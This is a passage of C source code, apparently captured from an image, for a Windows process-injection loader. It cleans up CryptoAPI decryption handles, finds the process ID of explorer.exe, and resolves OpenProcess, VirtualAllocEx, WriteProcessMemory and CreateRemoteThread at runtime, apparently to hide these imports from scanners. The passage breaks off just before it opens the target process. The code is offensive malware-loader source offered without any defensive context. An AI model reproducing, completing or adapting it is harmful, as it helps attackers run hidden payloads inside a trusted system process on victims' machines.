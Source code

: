 ```
    {
        goto CLEANUP;
    }

    goto CLEANUP;

    CLEANUP:
        CryptReleaseContext(hCryptoProv, 0);
        CryptDestroyKey(hCryptoKey);
        CryptDestroyHash(hCryptHash);

        return bSuccess;
}

DWORD FindExplorer()
{
    PROCESSENTRY32 pe32 = {0};
    pe32.dwSize = sizeof(PROCESSENTRY32);

    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if(hSnapshot)
    {
        if(Process32First(hSnapshot, &pe32))
        {
            do
            {
                if (strcmp(pe32.szExeFile, "explorer.exe") == 0)
                {
                    return pe32.th32ProcessID;
                }
            } while(Process32Next(hSnapshot, &pe32));
            CloseHandle(hSnapshot);
        }
    }

    return -1;
}

int main(int argc,  char const *argv[])
{
    DWORD dwPid;
    LPVOID lpBuffer;
    HANDLE hProcess, hThread;

    // resolve imports
    OpenProcess_ fnOpenProcess = (OpenProcess_)GetProcAddress(GetModuleHandle("kernel32.dll"), "OpenProcess");
    VirtualAllocEx_ fnVirtualAllocEx = (VirtualAllocEx_)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx");
    WriteProcessMemory_ fnWriteProcessMemory = (WriteProcessMemory_)GetProcAddress(GetModuleHandle("kernel32.dll"), "WriteProcessMemory");
    CreateRemoteThread_ fnCreateRemoteThread = (CreateRemoteThread_)GetProcAddress(GetModuleHandle("kernel32.dll"), "CreateRemoteThread");

    // find the pid of explorer.exe
    dwPid = FindExplorer();
    if (dwPid == -1)
    {
        printf("[!] Failed to find process\\n");
        return -1;
    }

    // get a handle on the process
```